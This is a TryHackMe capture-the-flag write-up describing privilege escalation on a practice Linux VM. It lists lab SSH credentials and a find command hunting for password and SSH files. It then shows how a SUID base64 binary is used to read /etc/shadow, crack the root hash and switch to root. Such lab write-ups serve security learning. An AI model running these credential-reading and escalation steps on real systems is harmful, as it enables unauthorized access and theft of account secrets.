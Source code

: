 **TryHackMe Write-Up**

* **Target IP:** `10.10.55.87`
* **VPN:** Connected to TryHackMe using OpenVPN.
* **Initial Access:** Connected to the target VM via SSH using the following credentials:

  * **Username:** `leonard`
  * **Password:** `Penny123`

---

### 🧭 Enumeration

1. **Checked user privileges:**

   ```bash
   id
   ```

2. **Identified the hostname:**

   ```bash
   hostname
   ```

3. **Checked the kernel version:**

   ```bash
   uname -r
   ```

   * Kernel version: `3.10.0-1160.el7.x86_64`

4. **Checked for sudo privileges:**

   ```bash
   sudo -l
   ```

5. **Searched for interesting files (e.g., passwords, SSH keys):**

   ```bash
   find / -type f \( -name "*pass*" -o -name "*ssh*" \) 2>/dev/null
   ```

   * Nothing useful found.

6. **Searched online for kernel-specific vulnerabilities:**

   * No exploitable vulnerabilities found for this kernel version.

7. **Checked for files with SUID permissions:**

   ```bash
   find / -type f -perm -04000 -ls 2>/dev/null
   ```

   * Found several SUID binaries.
   * Notably, `base64` had the SUID bit set.

---

### 🛠 Exploitation via SUID `base64`

Using GTFOBins[](https://gtfobins.github.io/#), I discovered that the `base64` command can be abused to read files as another user when SUID is set.

* Read `/etc/shadow` using:

  ```bash
  base64 /etc/shadow | base64 --decode
  ```

* Extracted the root user's password hash from the file.

* Cracked the hash using [hashes.com](https://hashes.com), which revealed the root password.

---

### 🔐 Privilege Escalation

* Switched to the root user:

  ```bash
  su root
  ```

  * Entered the cracked password and successfully gained root access.

---

### 🏁 Flags

* Retrieved both `flag1` and `flag2` from the `missy` and `root` directories, respectively.

---

**Status:** ✅ Root access achieved and both flags captured.

Thanks!

---

